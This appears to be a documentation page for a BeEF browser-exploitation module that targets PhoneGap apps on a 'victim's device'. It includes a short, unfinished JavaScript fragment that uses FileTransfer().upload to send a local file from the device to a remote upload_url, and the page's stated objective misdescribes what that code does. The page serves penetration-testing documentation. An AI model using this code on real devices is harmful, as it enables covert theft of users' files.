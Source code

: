 ## Summary

* **Objective**: Upload a file to the victim's device via PhoneGap API
* **Authors**: mh
* **Browsers**: All (with PhoneGap)

* [Code](https://github.com/beefproject/beef/tree/master/modules/phonegap/phonegap_file_upload)

## Internal Working

This module uses the `FileTransfer()` method in PhoneGap to upload file to local filesystem.

It's still work in progress. (There are TODO items in command.js)

```js

var options = new FileUploadOptions();
options.fileKey="content";

// grab filename from the filepath
re = new RegExp("([^/]*)$");
options.fileName = file_path.match(re)[0];
//options.fileName="myrecording.wav";// TODO grab from filepath

// needed?
var params = new Object();
params.value1 = "test";
params.value2 = "param";
options.params = params;
// needed?

var ft = new FileTransfer();
ft.upload(file_path, upload_url, win, fail, options);

```

## Feedback

